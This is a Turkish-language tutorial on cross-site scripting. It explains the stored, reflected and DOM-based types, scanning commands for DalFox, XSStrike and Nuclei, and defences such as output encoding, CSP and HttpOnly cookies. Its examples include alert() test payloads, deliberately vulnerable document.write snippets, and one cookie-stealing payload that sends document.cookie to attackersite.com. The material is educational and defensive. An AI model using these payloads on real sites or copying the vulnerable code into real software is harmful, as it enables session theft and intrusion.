 :
### XSS (Cross-Site Scripting) Nedir?
XSS (Cross-Site Scripting), saldırganların bir web sitesine zararlı JavaScript kodu enjekte etmesine olanak tanıyan bir güvenlik açığıdır. Bu kod, siteyi ziyaret eden diğer kullanıcıların tarayıcılarında çalıştırılır ve oturum çalma, kimlik bilgisi hırsızlığı, keylogger yerleştirme veya kötü amaçlı yönlendirmeler gibi saldırılara sebep olabilir.

## 1️⃣ XSS Türleri
### 1️⃣ Stored XSS (Depolanmış XSS)
### Açıklama: Zararlı JavaScript kodunun kalıcı olarak web sitesine kaydedildiği saldırı türüdür. Kullanıcı siteyi ziyaret ettiğinde kod otomatik olarak çalıştırılır.
### Örnek:
Yorum, mesaj, forum postları gibi kullanıcı tarafından girilen verilerin kaydedilmesi
Profil isimleri, blog içerikleri veya ürün açıklamalarına zararlı kod eklenmesi
Payload Örneği:
Bir yorum alanına aşağıdaki gibi bir XSS payload eklenirse, sayfayı ziyaret eden herkesin tarayıcısında bu kod çalışacaktır:
```html
<script>alert('XSS')</script>
```

- 🔹 Korunma Yöntemleri:
- ✅ Kullanıcı girişlerini HTML encode ile filtrele
- ✅ CSP (Content Security Policy) kullanarak zararlı komutları engelle

### 2️⃣ Reflected XSS (Yansıtılmış XSS)
### Açıklama: Kullanıcının tarayıcısına anında geri dönen XSS türüdür. Saldırgan genellikle zararlı bir link oluşturarak kurbanı bu linke tıklaması için kandırır.
### Örnek:
Arama kutusu, hata mesajları veya URL parametrelerinde işlenen zararlı kodlar
Payload Örneği:
```html
https://target.com/search?q=<script>alert('XSS')</script>
Bu linke tıklayan kişinin tarayıcısında alert() penceresi açılacaktır.
🔹 Korunma Yöntemleri:
✅ Girdi doğrulaması ve filtreleme yap
✅ XSS korumalı framework’ler (React, Angular gibi) kullan
```

### 3️⃣ DOM-Based XSS
### Açıklama: Zararlı JavaScript kodunun tarayıcı tarafından çalıştırıldığı XSS türüdür. Burada saldırı, web sunucusu yerine tarayıcı tarafında (DOM manipülasyonu ile) gerçekleştirilir.
### Örnek:
Bir URL parametresi innerHTML veya document.write() gibi unsurlara aktarılırsa XSS oluşabilir:
```js
var userInput = location.hash.substring(1);
document.write(userInput);
Eğer saldırgan şu URL’yi kurbanla paylaşırsa:
```html
https://target.com/#<script>alert('XSS')</script>
Kurban bu linke girdiğinde XSS çalışacaktır.
🔹 Korunma Yöntemleri:
✅ innerHTML, document.write(), eval() gibi güvenliksiz fonksiyonları kullanma
✅ Kullanıcı girdilerini sanitize et ve encode uygula
```

## 2️⃣ XSS Açığını Tespit Etme
### Manuel Testler:
<script>alert('XSS')</script> gibi payload’ları dene
Burp Suite Repeater kullanarak dinamik alanları test et
DOM manipülasyonu yapan alanları analiz et
### Otomatik Araçlar:
Burp Suite Scanner
XSStrike
DalFox
Nuclei XSS Tarama
```bash
nuclei -t vulnerabilities/xss -u https://target.com
```

## 3️⃣ XSS’ten Korunma Yöntemleri
- ✅ Girdi Doğrulaması: Kullanıcının girdiği verileri kontrol et
- ✅ Çıkışta Filtreleme: HTML encode uygula (<script> yerine &lt;script&gt;)
- ✅ CSP (Content Security Policy) Kullan: Sadece güvenli kaynaklardan script çalıştır
- ✅ HttpOnly ve Secure Cookie Kullan: Oturum çalınmasını engelle

### Sonuç
XSS, web uygulamalarında en yaygın güvenlik açıklarından biri olup saldırganların oturum çalmasına, sayfa içeriğini değiştirmesine veya kullanıcıları zararlı sitelere yönlendirmesine neden olabilir. Bu yüzden girdi doğrulaması, filtreleme ve güvenli kodlama prensipleri ile korunma sağlanmalıdır. 🚀

_______________________________________________________________________________________

### URL ile XSS (Reflected ve DOM-Based XSS) Nedir?
URL ile XSS saldırıları genellikle Reflected XSS ve DOM-Based XSS şeklinde gerçekleşir. Saldırgan, mağdurun tarayıcısında çalışacak kötü niyetli bir JavaScript kodunu URL’ye enjekte eder. Mağdur bu URL’yi açtığında zararlı kod çalışır.

## 1️⃣ Reflected XSS ile URL Üzerinden Saldırı
Reflected XSS, web sunucusunun, URL’den gelen girdiyi filtrelemeden sayfaya yerleştirmesi sonucu oluşur. Kullanıcı URL’deki kötü amaçlı JavaScript içeren bağlantıya tıkladığında tarayıcısında kod çalışır.
### Örnek Zafiyetli URL:
Bir arama kutusu içeren site düşünelim:
```html
https://target.com/search?q=deneme
Sunucu, bu değeri sayfa içine yansıtır:
```html
<p>Arama Sonucu: deneme</p>
Eğer giriş doğrulaması yapılmazsa, URL’ye bir JavaScript kodu enjekte edilebilir:
```html
https://target.com/search?q=<script>alert('XSS')</script>
Bu durumda, site bu girdiyi doğrudan sayfaya eklediğinde saldırı gerçekleşir:
```html
<p>Arama Sonucu: <script>alert('XSS')</script></p>
Sonuç: Kurban bu linke tıklarsa tarayıcısında alert('XSS') açılır.
✅ Test Etmek İçin Kullanılabilecek Payload’lar:
```html
https://target.com/search?q=<script>alert(1)</script>
https://target.com/search?q="><script>alert(1)</script>
https://target.com/search?q=<svg/onload=alert(1)>
https://target.com/search?q=<img src=x onerror=alert(1)>
https://target.com/search?q=<body onload=alert(1)>
```


🛠️ 2️⃣ DOM-Based XSS ile URL Üzerinden Saldırı
DOM-Based XSS, JavaScript’in document.write(), innerHTML, location.href, eval() gibi güvenliksiz fonksiyonları kullanması nedeniyle oluşur. Bu durumda saldırı, sunucu tarafında değil, tarayıcı tarafında gerçekleşir.
### Örnek Güvenlik Açığı:
Aşağıdaki kod, URL’de bulunan msg parametresini alıp sayfaya eklemektedir:
```html
<script>
var message = new URLSearchParams(window.location.search).get("msg");
document.write(message);
</script>
Eğer bir saldırgan şu URL’yi kullanırsa:
```html
https://target.com/index.html?msg=<script>alert('XSS')</script>
Sayfayı ziyaret eden kullanıcının tarayıcısında XSS çalışacaktır.
✅ DOM-Based XSS Test İçin URL Payload’ları:
```html
https://target.com/index.html#<script>alert('XSS')</script>
https://target.com/index.html?msg=<img src=x onerror=alert(1)>
https://target.com/index.html?data=<svg/onload=alert(1)>
https://target.com/index.html?msg=<body onload=alert(1)>
```


🔎 3️⃣ URL ile XSS Açığını Test Etme
- ✅ Burp Suite Repeater ile URL’deki parametreleri test et
- ✅ Manuel Payload Denemeleri yaparak sayfanın çıktısını incele
- ✅ DalFox & XSStrike gibi araçlarla otomatik tarama yap
```bash
dalfox url "https://target.com/search?q=test"
xsstrike -u "https://target.com/search?q=test"
✅ Developer Console’da (F12) JavaScript analizi yap
```js
document.write(location.search);
```


## 4️⃣ XSS Açıklarından Korunma Yöntemleri
- 🚫 Kullanıcı girişlerini doğrudan sayfaya yazdırma!
- ✅ Girdi doğrulaması yap ve özel karakterleri filtrele (<, >, ", ', / gibi karakterleri engelle)
- ✅ HTML encode kullan:
```js
function escapeHTML(str) {
    return str.replace(/[&<>"']/g, function (match) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#39;'
        }[match];
    });
}
✅ CSP (Content Security Policy) kullanarak yalnızca güvenilir kaynaklardan script çalıştır
✅ HttpOnly ve Secure flag içeren çerezler kullanarak oturum çalınmasını önle
```

### Sonuç
URL ile XSS saldırıları, kullanıcıları kandırarak zararlı kod çalıştırmak için yaygın olarak kullanılan bir yöntemdir. Reflected XSS ve DOM-Based XSS açıklarını önlemek için güvenli kodlama prensipleri uygulanmalı ve uygun koruma yöntemleri alınmalıdır. 🚀
_____________________________________________________________________________________

### Kayıtlı XSS (Stored XSS) Nedir?
Kayıtlı XSS (Stored XSS), saldırganın zararlı JavaScript kodunu bir web sitesinin veritabanına veya kalıcı bir depolama alanına kaydetmesiyle oluşan bir güvenlik açığıdır. Bu tür saldırılar, yorum bölümleri, mesaj panoları, kullanıcı profilleri veya forumlar gibi veri girişlerinin kaydedildiği yerlerde yaygındır.
- ✅ Stored XSS ile saldırı başarılı olursa:
Zararlı kod herkese çalıştırılır.
Kullanıcı tarayıcılarında session çalma, keylogger, phishing saldırıları yapılabilir.
Etkilenen herkes saldırıdan habersiz kalır.

## 1️⃣ Kayıtlı XSS Örneği
Bir web sitesinde yorum ekleyebildiğimiz bir alan olduğunu düşünelim. Kullanıcı, aşağıdaki gibi bir yorum yazarsa:
```html
<script>alert('XSS')</script>
Ve web sitesi bu girdiyi filtrelemeden veritabanına kaydeder ve sayfaya eklerse, tüm ziyaretçiler için JavaScript kodu otomatik olarak çalışır.
📌 Örnek Kötü Amaçlı Girdi
```html
<script>document.location='http://attackersite.com/steal?cookie='+document.cookie</script>
Bu kod, kurbanın çerezlerini saldırgana gönderir.
```

🛠️ 2️⃣ Kayıtlı XSS Açığını Test Etme
- ✅ Kendi yorumlarını kontrol et:
Form alanlarına <script>alert("XSS")</script> gibi payload’lar gir.
Yorum ekle ve sayfa yenilendiğinde çalışıp çalışmadığını kontrol et.
- ✅ Gizli JavaScript çalıştır:
Bazı sitelerde alert() kapalı olabilir, ancak aşağıdaki kodlar çalışabilir:
```html
<script>console.log("XSS Test")</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
Eğer yukarıdaki kodlar çalışıyorsa Stored XSS açığı var demektir.
✅ Burp Suite Proxy ile HTTP requestleri analiz et:
Form verilerini Intercept (yakala) yaparak sunucuya gönderilen POST/GET isteklerini incele.
XSS payload’larını farklı alanlara enjekte ederek sitenin nasıl tepki verdiğini kontrol et.
✅ Automated XSS Scan (Otomatik Tarama) için Araçlar Kullan:
DalFox:
```bash
dalfox url "https://target.com/comment"
XSStrike:
```bash
xsstrike -u "https://target.com/comment"
```

## 3️⃣ Kayıtlı XSS Açıklarından Korunma Yöntemleri
- ✅ Girdi Doğrulama ve Filtreleme:
HTML encode yap: Kullanıcının girdiği <script> gibi etiketleri &lt;script&gt; olarak dönüştür.
Girdi uzunluğu sınırlı olsun: <script> gibi zararlı kod eklemek için uzun metinler gereklidir.
Yalnızca izin verilen karakterleri kullan: Örneğin, yorum alanına sadece harf, sayı ve belirli noktalama işaretlerini eklemeye izin ver.
- ✅ Çıktı Temizleme (Output Encoding):
Kullanıcının girdiği verileri innerHTML, document.write gibi fonksiyonlarla doğrudan eklemeyin!
Bunun yerine textContent veya innerText kullanın:
```js
document.getElementById("comment").textContent = userInput;
✅ CSP (Content Security Policy) Kullan:
Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlamak için CSP ekleyin.
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-source.com;">
✅ HttpOnly ve Secure Çerez Kullanımı:
Çerezleri HttpOnly olarak ayarlayarak JavaScript ile okunmasını engelleyin:
```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

### Sonuç
Kayıtlı XSS, kalıcı ve tehlikeli bir açık olup, saldırganın zararlı kodu bir defa enjekte ettikten sonra her kullanıcıyı etkileyebildiği bir saldırıdır. Güvenli kodlama, çıktı temizleme ve CSP kullanımı ile bu tür saldırılar önlenebilir. 🚀
______________________________________________________________________________________
## XSS'ten Korunma Yöntemleri
XSS (Cross-Site Scripting) saldırılarından korunmak için girdi doğrulama, çıktı temizleme ve güvenlik önlemleri almak gereklidir. İşte XSS'ten korunmak için almanız gereken önlemler:

### 1️⃣ Kullanıcı Girdilerini Doğrulayın ve Filtreleyin
Kullanıcıdan gelen her veriyi güvenli kabul etmeyin!
Yalnızca izin verilen karakterleri kabul edin. (Beyaz liste yöntemi)
HTML etiketlerini temizleyin veya encode edin.


Örnek (Python – Flask)
```python
from markupsafe import escape  
@app.route("/comment", methods=["POST"])
def comment():
    user_input = escape(request.form["comment"])  # HTML encode
    return f"Yorum kaydedildi: {user_input}"
✅ escape() fonksiyonu zararlı HTML etiketlerini &lt;script&gt; gibi encode eder.
Örnek (PHP)
```php
$user_input = htmlspecialchars($_POST["comment"], ENT_QUOTES, 'UTF-8');
✅ htmlspecialchars() zararlı karakterleri HTML olarak encode eder.
```

### 2️⃣ Çıktı Temizleme (Output Encoding)
Kullanıcı girdisini doğrudan sayfaya eklemeyin!
innerHTML, document.write() gibi fonksiyonlar yerine textContent veya innerText kullanın.
Örnek (JavaScript)
```js
document.getElementById("comment").textContent = userInput;
✅ textContent doğrudan HTML yerine sadece metin olarak ekler.
```

### 3️⃣ Güçlü Content Security Policy (CSP) Kullanın
CSP, tarayıcının belirli kaynaklardan gelen scriptleri engellemesini sağlar.
Örnek (Meta Tag ile CSP)
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-cdn.com;">
✅ Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlar.
Örnek (HTTP Header ile CSP)
```bash
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-scripts.com
```

4️⃣ HttpOnly ve Secure Çerezleri Kullanın
XSS saldırıları genellikle çerez çalmak için yapılır. HttpOnly çerezler JavaScript ile erişilemez.
Örnek (Set-Cookie Header)
```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

- ✅ HttpOnly çerezleri JavaScript ile okunamaz.
- ✅ Secure sadece HTTPS üzerinden gönderir.

5️⃣ Güvenli JavaScript Kullanımı
eval(), document.write(), setInnerHTML() gibi fonksiyonlardan kaçının!
Eğer JSON verisi işleniyorsa, JSON.parse() kullanın, eval() kullanmayın!
Yanlış Kullanım (XSS Açığı Var)
```js
var userInput = "<script>alert('XSS')</script>";
document.body.innerHTML = userInput;  // XSS saldırısına açık
Doğru Kullanım
```js
document.body.textContent = userInput;  // Güvenli
```


6️⃣ Web Uygulama Güvenlik Duvarı (WAF) Kullanın
Cloudflare, AWS WAF, ModSecurity gibi güvenlik duvarları zararlı XSS payload'larını engelleyebilir.

### Sonuç
XSS saldırılarından korunmak için girdi doğrulama, çıktı temizleme, CSP, güvenli çerezler ve güvenli kodlama yöntemlerini uygulamak gerekir. 🚀



